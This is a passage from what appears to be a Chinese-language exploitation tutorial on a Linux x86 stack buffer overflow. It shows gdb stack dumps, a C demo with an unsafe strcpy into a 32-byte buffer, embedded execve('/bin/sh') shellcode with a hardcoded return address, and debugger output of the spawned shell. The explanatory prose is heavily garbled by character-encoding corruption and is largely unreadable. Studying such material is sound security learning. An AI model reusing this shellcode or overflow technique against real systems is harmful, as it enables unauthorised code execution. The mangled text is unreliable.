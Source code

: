 0068| 0xbfffef04 --&gt; 0xbfffefa4 --&gt; 0xb5e79f4a 
0072| 0xbfffef08 --&gt; 0xb7fbb000 --&gt; 0x1b1db0 
0076| 0xbfffef0c --&gt; 0xfd57 
0080| 0xbfffef10 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0084| 0xbfffef14 (&#39;A&#39; &lt;repeats 36 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0088| 0xbfffef18 (&#39;A&#39; &lt;repeats 32 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0092| 0xbfffef1c (&#39;A&#39; &lt;repeats 28 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0096| 0xbfffef20 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;BBBB\320\356\377\277&quot;)
</code></pre><p>缂撳啿鍖哄凡缁忓紑鐨勮冻澶熷ぇ浜嗭紝鎴戜滑濉厖涓€娈垫湁鏁堢殑鎸囦护锛岃繖娈典唬鐮佷粠钂哥背閭ｉ噷鎶勬潵鐨勶紝閮藉樊涓嶅锛屼笉瑕佹湁<code>bad char</code>灏辫</p>
<pre><code>#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

void Overflow(char temp[])
{
    char buffer[32];
    strcpy(buffer, temp);
    printf(&quot;%s\n&quot;, buffer);
}

int main()
{
    //execve(&quot;/bin/sh&quot;);
    char temp[64] = &quot;\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xd0\xee\xff\xbf&quot;;
    Overflow(temp);
    return 0;
}
</code></pre><p>gdb璋冭瘯璺戣捣鏉ワ紝鎴愬姛杩斿洖浜嗕竴涓猻hell</p>
<pre><code>gdb-peda$ r
Starting program: /home/wnagzihxain/Demo 
1锟斤拷锟絈h//shh/bin锟斤拷锟�
                  锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟�
process 5854 is executing new program: /bin/dash
$ id    
[New process 5858]
process 5858 is executing new program: /usr/bin/id
[Thread debugging using libthread_db enabled]
Using host libthread_db library &quot;/lib/i386-linux-gnu/libthread_db.so.1&quot;.
uid=1000(wnagzihxain) gid=1000(wnagzihxain) groups=1000(wnagzihxain),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ [Inferior 2 (process 5858) exited normally]
Warning: not running or target is remote
</code></pre><p>涓嶉敊锛岄紦鎺岋紝鎾掕姳<del>~</del>~</p>
<p>鎴戜滑涓嶄娇鐢╣db璋冭瘯妯″紡锛岀洿鎺ヨ繍琛�</p>
<pre><code>wnagzihxain@toT0C:~$ ./Demo
1锟斤拷锟絈h//shh/bin锟斤拷锟�
                  锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟�
娈甸敊璇� (鏍稿績宸茶浆鍌�)
</code></pre><p>杩樻槸涓€鏍风殑杩斿洖鍦板潃锛岃繕鏄竴鏍风殑Shellcode锛屼絾鏄负浠€涔堣繖閲屽氨鍑洪敊浜嗗憿锛�</p>
<p>鍘熷洜鏄洜涓篻db浼氬奖鍝嶇▼搴忕殑瀹為檯鍦板潃锛屽湪gdb璋冭瘯妯″紡涓嬶紝鎴戜滑鐪嬪埌鐨勫湴鍧€璺熺湡瀹炵幆澧冧笅鏄笉涓€鏍风殑(鏈鍑鸿嚜钂哥背鐨勩€婁竴姝ヤ竴姝ュROP涔媗inux_x86绡囥€�)</p>
<p>鎵€浠ユ祴璇曞嚭婧㈠嚭鐐瑰悗锛屾垜浠氨闇€瑕佹壘鍒�<code>buffer</code>鍦ㄥ唴瀛樼殑鐪熷疄鍦板潃</p>
<p>鎵惧埌鐪熷疄鍦板潃鏈変袱绉嶆瘮杈冨父鐢ㄧ殑鏂规硶锛屼竴涓槸<code>core dump</code>锛屽彟涓€涓槸<code>attach</code></p>
<p>鍏堟潵浣跨敤<code>core dump</code>锛岃繖涓渶瑕佸紑鍚紝杩欓噷杩樻槸鎶勮捀绫崇殑锛�<code>core.%t</code>鐪熷ソ鐢�</p>
